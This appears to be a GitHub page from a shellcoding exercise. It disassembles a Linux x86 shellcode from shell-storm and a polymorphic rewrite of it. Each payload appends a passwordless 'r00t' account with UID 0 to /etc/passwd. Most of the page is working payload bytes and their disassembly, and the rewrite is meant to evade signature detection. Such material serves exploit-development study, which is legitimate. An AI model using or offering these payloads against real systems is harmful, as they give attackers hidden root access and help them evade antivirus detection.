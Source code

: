 ## Initial nasm code

Original shellcode: [Link](http://shell-storm.org/shellcode/files/shellcode-211.php)

Length: 69 bytes

Obtain from running: 

    echo -ne "\x6a\x05\x58\x31\xc9\x51\x68\x73\x73\x77\x64\x68\x2f\x2f\x70\x61\x68\x2f\x65\x74\x63\x89\xe3\x66\xb9\x01\x04\xcd\x80\x89\xc3\x6a\x04\x58\x31\xd2\x52\x68\x30\x3a\x3a\x3a\x68\x3a\x3a\x30\x3a\x68\x72\x30\x30\x74\x89\xe1\x6a\x0c\x5a\xcd\x80\x6a\x06\x58\xcd\x80\x6a\x01\x58\xcd\x80" | ndisasm -u -
    
    00000000  6A05              push byte +0x5
    00000002  58                pop eax
    00000003  31C9              xor ecx,ecx
    00000005  51                push ecx
    00000006  6873737764        push dword 0x64777373
    0000000B  682F2F7061        push dword 0x61702f2f
    00000010  682F657463        push dword 0x6374652f
    00000015  89E3              mov ebx,esp
    00000017  66B90104          mov cx,0x401
    0000001B  CD80              int 0x80
    0000001D  89C3              mov ebx,eax
    0000001F  6A04              push byte +0x4
    00000021  58                pop eax
    00000022  31D2              xor edx,edx
    00000024  52                push edx
    00000025  68303A3A3A        push dword 0x3a3a3a30
    0000002A  683A3A303A        push dword 0x3a303a3a
    0000002F  6872303074        push dword 0x74303072
    00000034  89E1              mov ecx,esp
    00000036  6A0C              push byte +0xc
    00000038  5A                pop edx
    00000039  CD80              int 0x80
    0000003B  6A06              push byte +0x6
    0000003D  58                pop eax
    0000003E  CD80              int 0x80
    00000040  6A01              push byte +0x1
    00000042  58                pop eax
    00000043  CD80              int 0x80
    
  
 ## Polymorphic nasm code

Length: 68 bytes

Obtain from running: 

    echo -ne "\x6a\x05\x58\x51\x68\x73\x73\x77\x64\x68\x2f\x2f\x70\x61\x68\x2f\x65\x74\x63\x89\xe3\x66\xb9\x01\x04\xcd\x80\x6a\x03\x5b\x83\xc0\x01\x50\x68\x30\x3a\x3a\x3a\x68\x3a\x3a\x30\x3a\x68\x72\x30\x30\x74\x89\xe1\x6a\x0c\x5a\xcd\x80\x83\xc3\x03\x89\xd8\xcd\x80\x6a\x01\x58\xcd\x80" | ndisasm -u -
    
    00000000  6A05              push byte +0x5
    00000002  58                pop eax
    00000003  51                push ecx
    00000004  6873737764        push dword 0x64777373
    00000009  682F2F7061        push dword 0x61702f2f
    0000000E  682F657463        push dword 0x6374652f
    00000013  89E3              mov ebx,esp
    00000015  66B90104          mov cx,0x401
    00000019  CD80              int 0x80
    0000001B  6A03              push byte +0x3
    0000001D  5B                pop ebx
    0000001E  83C001            add eax,byte +0x1
    00000021  50                push eax
    00000022  68303A3A3A        push dword 0x3a3a3a30
    00000027  683A3A303A        push dword 0x3a303a3a
    0000002C  6872303074        push dword 0x74303072
    00000031  89E1              mov ecx,esp
    00000033  6A0C              push byte +0xc
    00000035  5A                pop edx
    00000036  CD80              int 0x80
    00000038  83C303            add ebx,byte +0x3
    0000003B  89D8              mov eax,ebx
    0000003D  CD80              int 0x80
    0000003F  6A01              push byte +0x1
    00000041  58                pop eax
    00000042  CD80              int 0x80
